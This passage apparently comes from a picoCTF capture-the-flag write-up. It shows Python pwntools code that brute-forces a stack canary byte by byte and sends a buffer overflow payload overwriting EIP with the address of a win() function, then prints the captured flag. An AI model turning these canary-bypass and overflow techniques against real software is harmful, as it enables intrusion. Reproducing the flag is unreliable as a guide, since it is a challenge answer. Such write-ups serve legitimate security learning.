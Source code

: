 ```python
                log.info('Corrupt')

            if 'Flag?' in result:
                print "Guessed correct byte:", format(guess, '02x')
                canary += p8(guess)
                payload += p8(guess)
                guess = 0x0
                break
            guess += 1
            pause()
    return

def exploit(r):
    payload = ''
    payload += 'A'*canary_offset
    payload += p32(canary)     #pack canary into overflow to bypass security restrictions
    payload += 'A'*eip_offset
    payload += p32(win_addr)*3   #overwrite eip with addr of win()
    #payload += 'B'*4
    #payload += p32(binary.symbols['exit'])
    #payload += p32(win_addr)

    log.info('Sending payload %s' % payload)
    r.sendlineafter('\n> ', '%s' % str(len(payload)+1))
    r.sendlineafter('Input> ', payload)

    print r.recvline()
    return
```

```bash
picoCTF{eT_tU_bRuT3_F0Rc3_58bc7747}
```
